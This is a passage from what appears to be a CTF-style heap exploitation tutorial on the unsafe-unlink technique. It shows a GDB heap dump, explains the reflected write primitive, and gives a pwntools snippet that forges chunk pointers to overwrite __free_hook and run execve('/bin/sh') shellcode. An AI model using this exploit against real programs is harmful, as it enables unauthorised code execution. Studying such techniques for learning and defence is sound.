 ```

0x555555757000	0x0000000000000000	0x0000000000000091	................
0x555555757010	0x00000000deadbeef	0x00000000deadbeef	................
0x555555757020	0x0000000000000000	0x0000000000000000	................
0x555555757030	0x0000000000000000	0x0000000000000000	................
0x555555757040	0x0000000000000000	0x0000000000000000	................
0x555555757050	0x0000000000000000	0x0000000000000000	................
0x555555757060	0x0000000000000000	0x0000000000000000	................
0x555555757070	0x0000000000000000	0x0000000000000000	................
0x555555757080	0x0000000000000000	0x0000000000000000	................
0x555555757090	0x0000000000000090	0x0000000000000090	................
0x5555557570a0	0x0000000000000000	0x0000000000000000	................
0x5555557570b0	0x0000000000000000	0x0000000000000000	................
0x5555557570c0	0x0000000000000000	0x0000000000000000	................
0x5555557570d0	0x0000000000000000	0x0000000000000000	................
0x5555557570e0	0x0000000000000000	0x0000000000000000	................
0x5555557570f0	0x0000000000000000	0x0000000000000000	................
0x555555757100	0x0000000000000000	0x0000000000000000	................
0x555555757110	0x0000000000000000	0x0000000000000000	................
0x555555757120	0x0000000000000000	0x0000000000020ee1	................	 <-- Top chunk


```

It's at this point that malloc will perform the unlink procedure on our forged fd and bk, giving us 
that reflecter wirte primitive.

Malloc will follow our fD to what it believes is another chunk and overwrite that chunk's BK with our BK.
Then malloc will follow our BK and overwrite that chunk's FD with our FD.

For this to work, both addresses we supply must point to writable memory, wich means if we try to ovwewrite
the free hook with the address of system(), for example, the second half of our reflected write will attempt
to write the address of the free hook into the system() function, causing segfault.

Full RELRO is still enforced however, so we need to target the malloc hooks for our attack to succeed.

We have a heap leak and we can write shellcode onto an executable hap, so what's stopping us from using our
reflected write to overwrite the free hook with the address of our shellcode?

```
# exploit.py
chunk_A = malloc(0x88)
chunk_B = malloc(0x88)

fd = libc.sym._free_hook - 0x 18
bk = heap + 0x20
prev_size = 0x90
fake_size = 0x90
shellcode = asm("jmp shellcode;" + "nop;"*0x16 + "shellcode:" + shellcraft.execve("/bin/sh"))
edit( chunk_a, p64(fd)+p64(bk)+shellcode+p8(0)*(0x70-len(shellcode)) + p64(prev_size) + p64(fake_size) )
```
